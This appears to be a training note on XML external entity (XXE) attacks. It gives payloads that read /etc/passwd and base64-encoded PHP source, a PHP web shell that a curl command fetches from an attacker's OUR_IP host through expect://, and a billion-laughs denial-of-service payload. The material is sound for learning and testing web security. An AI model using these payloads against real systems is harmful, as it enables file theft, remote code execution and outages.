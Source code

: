 ## Local File Disclosure
* When application trusts unfiltered XML data from user input
	* we are may able to reference an external XML DTD document and define new custom XML entities

## Identifying
* First step in identifying potential XXE vulnerabilities is finding web pages that accept an XML user input

![](./Screenshots/web_attacks_xxe_identify.jpg)
![](./Screenshots/web_attacks_xxe_request.jpg)

* Suppose the web application uses outdated XML libraries, and it does not apply any filters or sanitization on our XML input
* If we send the form without any modification, we get the following message

![](./Screenshots/web_attacks_xxe_response.jpg)

* To print the content of an external file to the page, we should `note which elements are being displayed, such that we know which elements to inject into`
* Whatever value we place in the `<email></email>` element gets displayed in the HTTP response
* Try to define a new entity and then use it as a variable in the `email` element to see whether it gets replaced with the value we defined

```xml
<!DOCTYPE email [
  <!ENTITY company "Inlane Freight">
]>
```

**Note:** In our example, the XML input in the HTTP request had no DTD being declared within the XML data itself, or being referenced externally, so we added a new DTD before defining our entity. If the `DOCTYPE` was already declared in the XML request, we would just add the `ENTITY` element to it.

* New XML entity called `company`, which we can reference with `&company;`

![](./Screenshots/web_attacks_xxe_new_entity.jpg)

**Note:** Some web applications may default to a JSON format in HTTP request, but may still accept other formats, including XML. So, even if a web app sends requests in a JSON format, we can try changing the `Content-Type` header to `application/xml`, and then convert the JSON data to XML with an [online tool](https://www.convertjson.com/json-to-xml.htm). If the web application does accept the request with XML data, then we may also test it against XXE vulnerabilities, which may reveal an unanticipated XXE vulnerability.

## Reading Sensitive Files
* Now we can define an external entity
* We just add the `SYSTEM` keyword and the path

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
```

![](./Screenshots/web_attacks_xxe_external_entity.jpg)

**Tip:** In certain Java web applications, we may also be able to specify a directory instead of a file, and we will get a directory listing instead, which can be useful for locating sensitive files.

## Reading Source Code
* LFI also allows us to read source code 

![](./Screenshots/web_attacks_xxe_file_php.jpg)

* We could not read the file because `the file we are referencing is not in a proper XML format, so it fails to be referenced as an external XML entity`
* If the file contains some of XML's special characters (e.g. `<`/`>`/`&`), it would break the external entity reference and not be used for the reference
* Furthermore, we cannot read any binary data, as it would also not conform to the XML format
* To do so, instead of using `file://` as our reference, we will use PHP's `php://filter/` wrapper
	* Specify the `convert.base64-encode` encoder as our filter, and then add an input resource (e.g. `resource=index.php`)

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

![](./Screenshots/web_attacks_xxe_php_filter.jpg)

* This trick only works with PHP web applications

## Remote Code Execution with XXE
* Easiest method would be to look for `ssh` keys
* We may be able to execute commands on PHP-based web applications through the `PHP://expect` filter
	* This requires the PHP `expect` module to be installed and enabled
* Also possible but less likely execute basic commands as `expect://id`
* Most efficient method to turn XXE into RCE is by fetching a web shell from our server and writing it to the web app, and then we can interact with it to execute commands

```sh
$ echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
$ sudo python3 -m http.server 80
```

* Use the following XML code to execute a `curl` command that downloads our web shell into the remote server

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```

**Note:** We replaced all spaces in the above XML code with `$IFS`, to avoid breaking the XML syntax. Furthermore, many other characters like `|`, `>`, and `{` may break the code, so we should avoid using them.

## Other XXE Attacks
* SSRF exploitation, which is used to enumerate locally open ports and access their pages, among other restricted web pages, through the XXE vulnerability
* Another attack would be Denial of Service (DOS)

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY a0 "DOS" >
  <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
  <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
  <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
  <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
  <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
  <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
  <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
  <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
  <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;">        
  <!ENTITY a10 "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;">        
]>
<root>
<name></name>
<tel></tel>
<email>&a10;</email>
<message></message>
</root>
```

*  `this attack no longer works with modern web servers (e.g., Apache), as they protect against entity self-reference`
